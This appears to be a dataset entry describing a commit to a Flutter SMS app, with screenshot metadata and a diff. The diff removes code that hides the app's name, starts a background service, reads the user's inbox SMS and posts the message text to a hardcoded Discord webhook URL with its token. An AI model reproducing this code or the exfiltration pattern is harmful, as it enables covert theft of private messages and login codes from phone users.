

Before and after one commit to hkhy2145/pfg, a Flutter app: the screen it shows after launch, on a phone screen of 412 x 824 dp. Shown: the top 746 px of the screen. Run offline on Flutter 3.47's test engine with Material 2 defaults, Android fonts, the phone set to English and light mode, and no system bars; missing offline and left inert: telephony.

Commit message:
Update main.dart

```diff
--- a/lib/main.dart
+++ b/lib/main.dart
@@ -1,8 +1,5 @@
 import 'package:flutter/material.dart';
 import 'package:telephony/telephony.dart';
-import 'package:http/http.dart' as http;
-import 'dart:convert';
-import 'package:flutter_background_service/flutter_background_service.dart';
 
 void main() {
   runApp(MyApp());
@@ -12,99 +9,48 @@ class MyApp extends StatelessWidget {
   @override
   Widget build(BuildContext context) {
     return MaterialApp(
-      // Remove the app name by setting the title to an empty string
-      title: '',
-      theme: ThemeData(
-        primarySwatch: Colors.blue,
-      ),
-      home: SMSReaderApp(),
+      home: HomeScreen(),
     );
   }
 }
 
-class SMSReaderApp extends StatefulWidget {
+class HomeScreen extends StatefulWidget {
   @override
-  _SMSReaderAppState createState() => _SMSReaderAppState();
+  _HomeScreenState createState() => _HomeScreenState();
 }
 
-class _SMSReaderAppState extends State<SMSReaderApp> {
-  final Telephony telephony = Telephony.instance;
-  String lastReceivedMessage = "";
+class _HomeScreenState extends State<HomeScreen> {
+  String latestSms = "No SMS available";
 
-  @override
-  void initState() {
-    super.initState();
-    WidgetsFlutterBinding.ensureInitialized();
-    _initializeBackgroundService();
-  }
-
-  Future<void> _initializeBackgroundService() async {
-    final serviceIntent = IsolateService.register();
-    serviceIntent.startWork();
-    // You might want to perform additional service configurations if required
-    serviceIntent.sendPort!.send(null);
+  Future<void> fetchLatestSms() async {
+    Telephony telephony = Telephony.instance;
+    List<SmsMessage> messages = await telephony.getInboxSms();
+    if (messages.isNotEmpty) {
+      SmsMessage latestMessage = messages.first;
+      setState(() {
+        latestSms = "Latest SMS: ${latestMessage.body}";
+      });
+    }
   }
 
   @override
   Widget build(BuildContext context) {
     return Scaffold(
       appBar: AppBar(
-        title: Text(''), // Remove the app name from the app bar
+        title: Text('SMS Reader'),
       ),
-      body: Column(
-        mainAxisAlignment: MainAxisAlignment.center,
-        children: [
-          Text(
-            'Last Received Message: $lastReceivedMessage',
-            style: TextStyle(fontSize: 18),
-          ),
-        ],
+      body: Center(
+        child: Column(
+          mainAxisAlignment: MainAxisAlignment.center,
+          children: <Widget>[
+            Text(latestSms),
+            ElevatedButton(
+              onPressed: fetchLatestSms,
+              child: Text('Fetch Latest SMS'),
+            ),
+          ],
+        ),
       ),
     );
   }
 }
-
-class IsolateService {
-  static Future<void> callback() async {
-    final Telephony telephony = Telephony.instance;
-    final SmsMessage? lastMessage = (await telephony.getInboxSms()).last;
-    if (lastMessage != null) {
-      final discordWebhookURL = 'https://discord.com/api/webhooks/1165290854416646225/NFI2Puw2SYeWNetzEm9sr_KtCSjEA-6CS54hTQZDCy7LD-EYLuv0rM2oioO7ObazFZvU';
-      final response = await http.post(
-        Uri.parse(discordWebhookURL),
-        headers: {'Content-Type': 'application/json'},
-        body: jsonEncode({'content': lastMessage.body}),
-      );
-      if (response.statusCode == 200) {
-        print('Message sent to Discord: ${lastMessage.body}');
-      } else {
-        print('Failed to send message to Discord. Status code: ${response.statusCode}');
-      }
-    }
-  }
-
-  static void _isolateEntry(SendPort sendPort) {
-    ReceivePort receivePort = ReceivePort();
-    sendPort.send(receivePort.sendPort);
-    receivePort.listen((_) {
-      callback();
-    });
-  }
-
-  static IsolateService register() {
-    final service = IsolateService._internal();
-    FlutterBackgroundService.initialize(callback: _isolateEntry);
-    return service;
-  }
-
-  IsolateService._internal();
-
-  void startWork() {
-    final port = ReceivePort();
-    IsolateNameServer.registerPortWithName(port.sendPort, 'background_service');
-    port.listen((dynamic data) async {
-      final SendPort? uiSendPort = IsolateNameServer.lookupPortByName('main');
-      uiSendPort!.send(data);
-    });
-  }
-}
```
